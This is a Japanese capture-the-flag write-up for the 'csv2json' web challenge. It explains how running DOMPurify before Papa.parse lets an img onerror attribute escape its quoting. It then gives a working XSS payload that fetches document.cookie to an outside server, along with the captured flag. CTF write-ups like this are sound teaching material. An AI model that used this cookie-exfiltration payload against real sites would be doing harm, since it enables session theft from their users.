 # csv2json:Web:100pts
alpaca, bongo, capybara  

[csv2json.tar.gz](csv2json.tar.gz)  

Challenge: [http://34.170.146.252:6716](http://34.170.146.252:6716), Admin bot: [http://34.170.146.252:30845](http://34.170.146.252:30845)  

# Solution
ソースファイルとURLが渡される。  
Botがあるため、XS系の問題とわかる。  
サイトにアクセスすると、csvをjsonにしてくれるサービスのようだ。  
![site.png](site/site.png)  
ページのソースを表示すると以下の通りであった。  
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>csv2json</title>
        <script src="https://cdn.jsdelivr.net/npm/dompurify@3.2.4/dist/purify.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/PapaParse/5.4.1/papaparse.min.js"></script>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/water.css@2/out/light.min.css" />
    </head>
    <body>
        <h1>csv2json</h1>
        <form action="/" method="GET">
            <textarea name="csv" placeholder="alpaca, bongo, capybara"></textarea>
            <input type="submit" value="Convert" />
        </form>
        <pre id="result" style="background-color: whitesmoke; padding: 1em"></pre>
        <script>
            const params = new URLSearchParams(location.search);
            if (params.get("csv")?.length > 0)
                result.innerHTML = JSON.stringify(Papa.parse(DOMPurify.sanitize(params.get("csv"))).data);
        </script>
    </body>
</html>
```
クエリ`csv`を`DOMPurify.sanitize`で無害化したのち、`Papa.parse`でcsvにパースして`JSON.stringify`している。  
無害化の後に変更が加わっているためXSSが起こせそうだ。  
試しに`<img src="1" onerror="alert(1)">`を送信すると`[["<img src=\\"1\\">"]]`となり、HTMLでは`<img src="\&quot;1\&quot;">`となった。  
タグを少し壊し`<img src="1 onerror=alert(1)">`としてみると`[["<img src=\\"1 onerror=alert(1)\\">"]]`となり、HTMLでは`<img src="\&quot;1" onerror="alert(1)\&quot;">`となる。  
なんと属性値だった`onerror`が外に出てきてしまっている。  
`\&quot;`によりalertしないため、うまく動くように末尾を`//`で終わらせてやればよい。  
XSSが達成できたため、次にフラグの場所を確認する。  
Botのソースファイル中に以下の記述がみられる。  
```js
~~~
  try {
    const page = await context.newPage();
    await page.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
    });
    await page.goto(url, { timeout: 3_000 });
    await sleep(5_000);
    await page.close();
  } catch (e) {
    console.error(e);
  }
~~~
```
cookieにあるようなので`<img src="1 onerror=fetch('//s4t.pw?s='+document.cookie)//">`のように持ち出してやればよい。  
Botにクエリを報告すると、以下のリクエストが自身のサーバへ到達した。  
```
GET
/?s=FLAG=Alpaca{p4p4_s3mpl1c1t4}
```
flagが得られた。  

## Alpaca{p4p4_s3mpl1c1t4}